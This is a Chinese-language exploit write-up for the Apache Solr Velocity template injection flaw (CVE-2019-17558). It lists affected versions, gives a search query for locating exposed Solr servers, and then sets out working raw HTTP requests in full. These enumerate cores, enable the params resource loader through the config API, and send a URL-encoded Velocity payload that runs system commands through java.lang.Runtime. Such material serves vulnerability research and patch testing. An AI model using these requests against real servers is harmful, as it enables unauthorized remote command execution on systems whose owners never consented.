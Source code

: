 # Apache Solr Velocity模版注入远程命令执行漏洞（CVE-2019-17558）

# 一、漏洞简介
`Apache Solr`是`Apache Lucene`项目的开源企业搜索平台。其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成以及富文本的处理。`Apache Solr`存在模版注入漏洞。攻击者通过未授权访问`Solr`服务器，发送特定的数据包开启`params.resource.loader.enabled`,而后get访问接口导致远程命令执行漏洞

## 二、影响版本
+ `Apache Solr 5.0.0~8.3.1`

# 三、资产测绘
+ hunter`app.name="Solr"`
+ 登录页面

![1693661111137-6bda495c-39b5-4f89-b54a-8fda4d74b3fd.png](./img/-2GTgOX_-wpT2ukM/1693661111137-6bda495c-39b5-4f89-b54a-8fda4d74b3fd-916775.png)

# 四、漏洞复现
1. 默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模版，可以通过api获取所有核心core

```java
GET /solr/admin/cores?indexInfo=false&wt=json HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1693661185287-f2301704-3803-452d-8ba5-0db27d594d85.png](./img/-2GTgOX_-wpT2ukM/1693661185287-f2301704-3803-452d-8ba5-0db27d594d85-040330.png)

2. 启用配置`params.resource.loader.enabled`,其中API路径包含刚才获取的core名称

```java
POST /solr/class/config HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![1693661211872-b2d5c27e-f9c2-425f-be37-517c12f54277.png](./img/-2GTgOX_-wpT2ukM/1693661211872-b2d5c27e-f9c2-425f-be37-517c12f54277-144560.png)

3. 查询`params.resource.loader.enabled`是否开启

![1693661505022-777ef604-c59f-4e9e-a649-8f14934e807f.png](./img/-2GTgOX_-wpT2ukM/1693661505022-777ef604-c59f-4e9e-a649-8f14934e807f-351305.png)

4. 通过注入Velocity模板即可执行任意命令

```java
GET /solr/class/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1693661647398-287f7ec3-998e-4681-920d-77ea1cd545df.png](./img/-2GTgOX_-wpT2ukM/1693661647398-287f7ec3-998e-4681-920d-77ea1cd545df-570598.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/enyp0cmgiol1otx3>